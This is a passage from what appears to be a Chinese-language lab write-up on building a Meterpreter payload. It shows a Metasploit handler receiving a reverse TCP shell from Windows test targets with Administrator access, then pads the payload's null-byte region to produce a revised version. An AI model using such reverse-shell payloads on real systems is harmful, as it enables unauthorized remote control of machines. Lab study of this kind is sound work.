 ![](/img/7b7ccfb69f47d0f2d8a901f885f2899a.jpg)

**第二次靶机测试：**分别测试Windows 2003，Windws 7，reverse OK。  

![](/img/a1daafaffa7abc656d309fb8429cbebf.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 9 opened (192.168.1.5:53 ‐> 192.168.1.119:3891) at 2019‐01‐27 14:46:20 ‐0500

meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > getpid
Current pid: 1232 
```

### 第三次优化payload：

在00000E60起含有大部分000h，充填掉00，在次生成payload。

```bash
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
....
```